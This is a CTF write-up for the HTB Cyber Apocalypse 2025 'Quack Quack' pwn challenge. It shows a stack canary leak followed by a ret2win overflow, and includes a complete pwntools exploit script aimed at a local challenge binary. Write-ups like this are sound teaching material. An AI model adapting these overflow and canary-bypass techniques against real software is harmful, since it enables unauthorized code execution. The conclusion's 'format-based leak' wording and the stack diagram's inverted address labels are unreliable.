 ```yaml
---
title: "Quack Quack 🦆 - Stack Canary Exploit Writeup"
tags: [CTF, binary exploitation, stack canary, ret2win, pwn]
---
```


# Quack Quack 🦆

![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![CTF](https://img.shields.io/badge/Event-HTB%20Cyber%20Apocalypse%202025-purple)

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm.

**Quack Quack**, it's time to face the Duck!

## Initial Inspection 🕵️

First we can check the protections enabled on the binary:

![image](https://github.com/user-attachments/assets/632ab392-d266-4b5b-8342-2e543a6702e0)

We can see that there is a canary. Then, in Ghidra:

![image](https://github.com/user-attachments/assets/ab52d254-fd1b-4f6b-8f73-2976fce00e0d)

We can see that in the first input, we must put "Quack Quack ", otherwise the binary displays "Where are your Quack Manners?!" and exit.

Four interesting lines here:
- `read(0, &local_88, 0x66);` → reads 102 bytes into the buffer
- `pcVar1 = strstr((char *)&local_88, "Quack Quack ");` → finds the position of our marker string
- `printf("Quack Quack %s, ready to fight the Duck?\n\n> ", pcVar1 + 0x20);` → prints data starting 32 bytes after our string (leak!)
- `read(0, &local_68, 0x6a);` → overflow is possible here (stack write past the buffer)

This 0x20 offset lets us leak data from the stack, starting 0x20 bytes after our "Quack Quack ", which helps us reach part of the canary.

Let's try to push a string with a specific length, and "Quack Quack " at the very end: 

- 0x66 => 102 in decimal
- "Quack Quack " => 12 characters

After some debugging with gdb, I saw that I needed exactly 89 + 12 characters to reach the canary:

```
from pwn import *

p = process("./vuln")

offset_to_canary = 89
payload = b"A" * offset_to_canary
payload += b"Quack Quack "

p.sendafter(b'> ', payload)

p.recvuntil(b'Quack Quack ')
leak = p.recvuntil(b', ready to fight the Duck?', drop=True)

canary_partial = leak[:7]

canary = b'\x00' + canary_partial
canary_val = u64(canary)

log.success(f"Canary leak : {hex(canary_val)}")
```

![image](https://github.com/user-attachments/assets/dcc251ad-8d84-4e01-8e58-7bc934893c4f)

Ok, now we leaked the canary, we're able to overwrite RIP and take control of the win function, "duck_attack".

## Stack Overflow Explained 🧵

Why does the second read() allow us to overwrite the stack canary and return address?

Let’s take a closer look at the vulnerable function:

```
read(0, &local_88, 0x66); // First read (102 bytes)
...
read(0, &local_68, 0x6a); // Second read (106 bytes) - the overflow
```

## 📌 Stack layout (simplified)

Here’s how the local variables are laid out on the stack:

```
|---------------------| <- higher address
|    local_88         |  ← 120 bytes total buffer (15 × 8 bytes)
|---------------------|
|     local_10        |  ← stack canary
|---------------------|
|     saved RBP       |
|---------------------|
|     return address  | <- lower address
```
The stack grows downward in memory (higher → lower addresses)

Now, look at the second read:

```
read(0, &local_68, 0x6a); // 106 bytes
```

We're writing **106 bytes** starting from `&local_68`, which is **not the start** of the buffer — it's **already 32 bytes down** (because `local_88` to `local_68` spans 4 × 8 bytes = 32 bytes).

So how much space is left?
- Total buffer size = 120 bytes
- Offset to local_68 = 32 bytes
- Remaining space = 120 - 32 = 88 bytes
- Data written = 106 bytes
    → Overflow of 18 bytes


![image](https://github.com/user-attachments/assets/d49253e1-4c63-4377-8590-72eb7080e0fa)

The win function, "duck_attack", located at the address "0x0040137f" **(NO PIE)**

## Full exploit 🎯

```
from pwn import *

p = process("./vuln")

offset_to_canary = 89
payload = b"A" * offset_to_canary
payload += b"Quack Quack "

p.sendafter(b'> ', payload)

p.recvuntil(b'Quack Quack ')
leak = p.recvuntil(b', ready to fight the Duck?', drop=True)

canary_partial = leak[:7]

canary = b'\x00' + canary_partial
canary_val = u64(canary)

log.success(f"Canary leak : {hex(canary_val)}")

payload2  = b"A" * 88
payload2 += p64(canary_val)
payload2 += p64(0)
payload2 += p64(0x0040137f) # address of duck_attack()

p.sendafter(b'> ', payload2)

p.interactive()
```

![image](https://github.com/user-attachments/assets/76a2911b-254b-4b15-8c70-a74796145322)

Pwned! 🦆🔥

## Conclusion 🧠

By abusing a format-based leak and a stack canary bypass, we successfully redirected execution to the `duck_attack` function and defeated the cursed villagers. 
 
Sir Alaric wins again — without harming a single duck. 🦆✨

Final result: a clean ret2win exploit using stack leak, canary bypass, and precise buffer control — all thanks to a duck 🦆

